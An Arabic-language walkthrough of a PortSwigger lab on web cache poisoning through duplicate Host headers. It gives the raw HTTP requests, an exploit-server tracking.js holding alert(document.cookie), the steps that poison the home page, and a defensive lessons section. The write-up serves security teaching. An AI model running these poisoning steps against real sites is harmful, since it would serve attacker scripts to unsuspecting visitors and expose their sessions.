


# Lab : Web cache poising via ambiguous request

https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests

- الفكره من الLab ده

```bash
1. 
```





### الفكرة العامة (نوع الثغرة)

اللاب ده من فئة **Web Cache Poisoning**، وتحديدًا بسبب **تناقض في تفسير الريكوست بين طبقتين**: الـ **Cache** (اللي بيخزن نسخ من الصفحات عشان يوفر أداء) والـ **Back-end application** (اللي بيولّد المحتوى الفعلي). الاتنين بيتعاملوا مع نفس الريكوست **بشكل مختلف** — تحديدًا لما يكون فيه **أكتر من `Host` header في نفس الريكوست**.

### الفكرة الأساسية للـ Web Cache Poisoning

الـ **Cache** بيشتغل كطبقة وسيطة بين الزائر والـ back-end:

```
[Client] → [Cache] → [Back-end]
```

لما زائر يطلب صفحة، الـ cache بيتأكد: "هل عندي نسخة محفوظة من الصفحة دي قبل كده؟" لو آه، بيرجعها **مباشرة من غير ما يكلم الـ back-end خالص**. الـ cache بيحدد "هل ده نفس الطلب اللي قبله" بناءً على **مفتاح محدد (cache key)**، غالبًا بيكون الـ URL بس، **من غير ما يدخل الهيدرز في الحسبة**.

لو المهاجم قدر **يحقن محتوى ضار في response معين، وبعدين الـ cache يخزّن الـ response ده على إنه "النسخة العادية" للصفحة**، فكل زائر عادي بعد كده هياخد **النسخة المسمومة (poisoned)** دي، حتى لو هو نفسه ماعملش أي حاجة غريبة في طلبه.

### المشكلة تحديدًا هنا: Ambiguous Requests (Duplicate Host headers)

الموقع بيتحقق من هيدر **`Host`** عشان يتأكد إن الطلب موجّه له صح (ده إجراء أمني شائع ضد Host header injection). لكن المشكلة إنه لو الريكوست فيه **هيدرين `Host` مع بعض**:

```
Host: YOUR-LAB-ID.web-security-academy.net
Host: attacker-controlled-value
```

الطبقتين (الـ **back-end** والـ **cache**) بيتعاملوا مع الحالة الغريبة دي **بشكل مختلف تمامًا** — وده اللي بيخلق الـ "ambiguity" (الغموض):

- **الـ back-end**: بيستخدم **أول `Host` header** للتحقق (فبيعدي الفحص الأمني عادي)، لكن بيستخدم **تاني `Host` header** في مكان تاني — تحديدًا لبناء **رابط مطلق (absolute URL)** لملف JavaScript بيتحمّل في الصفحة (`/resources/js/tracking.js`).
- **الـ cache**: بيخزّن الـ response ده على أساس الـ **URL بس** (`GET /`)، **من غير ما يميّز إن الهيدر الإضافي ده كان موجود أو لأ**.

النتيجة: أي **response مسموم** (فيه رابط سكريبت بيشاور على دومين المهاجم) بيتخزّن في الـ cache تحت **نفس المفتاح اللي بتاخده أي طلب عادي `GET /`**، فأي زائر عادي بعد كده هياخد النسخة المسمومة دي.

### خطوات الحل بالتفصيل

#### 1. افهم سلوك الموقع الأساسي

افتح اللاب في **Burp's browser**، دوس **Home** لتحديث الصفحة الرئيسية. روح لـ **Proxy > HTTP history**، وابعت الـ `GET /` على **Repeater**.

#### 2. تأكد من فحص الـ Host header

جرب تغيّر قيمة الـ `Host` header العادي (مش تضيف واحد تاني، بس تغيّره)، وهتلاقي إنك **مش هتقدر توصل للصفحة الرئيسية** — يعني فيه فحص صريح على الـ Host header.

#### 3. لاحظ هيدرز الـ Caching في الـ Response

في الـ response الأصلي، هتلاقي هيدرز caching مفصّلة (زي `X-Cache: hit` أو `Age: X`) بتقولك:

- هل الـ response ده جاي من الـ **cache** ولا من الـ **back-end مباشرة**.
- **عمر (age)** النسخة المخزّنة.

#### 4. استخدم Cache Buster عشان تجيب نسخة جديدة من الـ Back-end كل مرة

ضيف query parameter عشوائي في كل طلب:

```
GET /?cb=123
```

ليه؟ عشان الـ cache بيميّز كل URL مختلف كـ "صفحة مختلفة"، فإضافة parameter عشوائي بتضمن إنك بتاخد **response جديد من الـ back-end** كل مرة (مش نسخة قديمة مخزّنة)، وده بيسهّل عليك تجربة حاجات جديدة من غير ما تتلخبط بنسخ قديمة.

#### 5. اكتشف الـ Discrepancy (اختلاف التفسير)

ضيف **هيدر `Host` تاني** بقيمة عشوائية في نفس الريكوست:

```
GET /?cb=123 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: arbitrary-value.com
```

لاحظ حاجتين مهمتين:

1. **الفحص الأمني بيعدي عادي** — يعني الطلب بيتقبل ومش بيترفض (لأن الـ back-end بيستخدم أول `Host` بس للتحقق).
2. **قيمة الـ Host الثاني بتظهر (reflected) في رابط مطلق** جوه الصفحة، تحديدًا في:

html

```html
   <script src="http://arbitrary-value.com/resources/js/tracking.js"></script>
```

#### 6. تأكد إن النسخة دي بتتخزن في الـ Cache

شيل الـ `Host` header الثاني، وابعت الريكوست تاني **بنفس الـ cache buster** اللي استخدمته قبل كده. لو لسه شايف نفس القيمة العشوائية (`arbitrary-value.com`) في الرابط، يبقى تأكدنا إن الـ **response المسموم اتخزّن في الـ cache** فعلاً، وبيترجع لأي طلب لاحق لنفس الـ URL — حتى لو الطلب اللاحق ده **مافيهوش الهيدر الثاني خالص**.

#### 7. جهّز السكريبت الضار على Exploit Server

روح لـ **exploit server**، واعمل ملف على المسار:

```
/resources/js/tracking.js
```

بمحتوى:

javascript

```jsx
alert(document.cookie)
```

دوس **Store**، وانسخ **دومين الـ exploit server** بتاعك.

#### 8. اعمل التسميم الفعلي (Poison the Cache)

في Burp Repeater، ابعت طلب فيه:

```
GET /?cb=123 HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
```

كرر الإرسال كام مرة (أحيانًا محتاج تجرب أكتر من مرة لحد ما تضمن إن الـ cache فعلاً خزّن النسخة دي بدل نسخة قديمة أو نسخة تانية من سيرفر مختلف في الـ load balancer).

#### 9. تأكد من نجاح التسميم

شيل الـ Host الثاني، وابعت طلب عادي بنفس الـ cache buster (`?cb=123`). المفروض ترجعلك نسخة فيها رابط السكريبت بيشاور على الـ exploit server بتاعك. جرب تفتح نفس الرابط في المتصفح، وتأكد إن `alert(document.cookie)` بيشتغل فعلاً.

#### 10. سمم الصفحة الرئيسية الحقيقية (بدون Cache Buster)

شيل أي `cb` parameter (يعني ارجع لـ `GET /` العادية بدون أي إضافات)، وكرر إرسال الريكوست المسموم (بالـ Host header المزدوج) **لحد ما الصفحة الرئيسية الحقيقية نفسها تتسمم**.

بمجرد ما الضحية (اللي بيزور الصفحة الرئيسية بشكل دوري تلقائي في اللاب) يفتح الصفحة، هيشتغل عنده الـ `alert(document.cookie)`، واللاب هيتحل تلقائيًا ✅.

### ليه ده بيحصل تقنيًا

python

```python
# الـ Back-end:def handle_request(request):    host_headers = request.get_all("Host")   # ممكن يبقى فيه أكتر من واحد    if not is_valid_host(host_headers[0]):   # ❌ بيفحص بس أول Host header        return "Forbidden", 403    tracking_domain = host_headers[-1] if len(host_headers) > 1 else host_headers[0]    # ❌ بيستخدم آخر Host header لبناء رابط السكريبت!    return render_page(tracking_script_url=f"http://{tracking_domain}/resources/js/tracking.js")# الـ Cache (طبقة منفصلة تمامًا):def cache_lookup(request):    cache_key = request.url   # ❌ بيتجاهل الـ headers بالكامل في تحديد الـ cache key    if cache_key in cache_store:        return cache_store[cache_key]   # بيرجع نفس النسخة لأي طلب بنفس الـ URL
```

المشكلة الجوهرية مركّبة من نقطتين:

1. **الـ back-end بيتعامل مع الهيدرات المكررة (`Host` مرتين) بطريقة غامضة** — بيستخدم واحد للتحقق (الأول) وواحد تاني لتوليد المحتوى (الأخير)، وده **تناقض داخلي** في نفس التطبيق.
2. **الـ cache بيحدد "هوية" الطلب من الـ URL بس**، متجاهلًا تمامًا إن الطلب ممكن يحمل هيدرات إضافية أثّرت على شكل الـ response — فبيخزّن أي response جه من أي طلب "بنفس الشكل الظاهري" وكأنه صالح لكل الزوار.

### الدرس المستفاد

- **أي Discrepancy (اختلاف تفسير) بين الـ cache والـ back-end في التعامل مع نفس الريكوست هو ثغرة Cache Poisoning كامنة** — لازم الاتنين يتفقوا **بالظبط** على أي جزء من الريكوست (URL + هيدرات معينة) بيأثر على شكل الـ response، وأي جزء بيأثر لازم يدخل في الـ cache key.
- **الريكوستات "الغامضة" (Ambiguous requests)** زي هيدرات مكررة، أو headers بقيم متضاربة، بتفتح ثغرات لأن أنظمة مختلفة (proxies, caches, back-ends) بتتعامل معاها بطرق مختلفة تمامًا — ده مبدأ عام في فئة أكبر من الثغرات اسمها **"Request Smuggling"** و**"Parser Discrepancy"** (زي لاب الإيميل اللي فات بالظبط).
- **Cache buster** (إضافة parameter عشوائي زي `?cb=123`) أداة أساسية في اختبار أي ثغرة cache poisoning، لأنها بتضمن إنك دايمًا بتتعامل مع نسخة جديدة (fresh) من الـ back-end بدل ما تتلخبط بنسخ قديمة مخزّنة.
- الحل الصحيح للموقع: **رفض أي طلب فيه أكتر من `Host` header واحد** من الأساس (ده سلوك غير قياسي ومشبوه)، وكمان **تضمين أي هيدر بيؤثر على المحتوى النهائي داخل الـ cache key** (أو استخدام آليات caching أكثر أمانًا زي الـ "Vary" header بشكل صحيح).
